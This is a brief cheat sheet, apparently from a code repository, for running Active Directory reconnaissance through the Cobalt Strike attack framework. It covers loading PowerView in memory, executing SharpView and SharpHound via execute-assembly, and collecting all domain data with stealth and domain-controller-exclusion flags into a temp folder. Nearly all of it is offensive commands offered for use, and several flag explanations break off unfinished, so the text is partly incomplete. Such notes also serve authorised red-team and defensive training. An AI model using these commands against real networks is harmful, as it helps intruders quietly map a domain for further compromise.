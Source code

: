 # Cobalt Strike Cheat Sheet

## Running PowerShell scripts
```
powershell-import --> Select PowerView.ps1 to import PS1 file in memory
powershell Get-Module PowerView
powershell Get-NetUser -Identity testuser
```

## Executing .NET binaries (i.e. SharpView and SharpHound)
```
# Running SharpView in memory (.NET version of PowerView)
execute-assembly C:\SharpView.exe ...

# BloodHound collection with SharpHound.exe
# --Stealth will
# --excludedomaincontrollers will 
# --windowsonly will 
execute-assembly C:\SharpHound.exe --CollectionMethod All --Domain test.lab.local --Stealth --excludedomaincontrollers --windowsonly --OutputDirectory C:\users\testuser\appdata\local\temp\
```
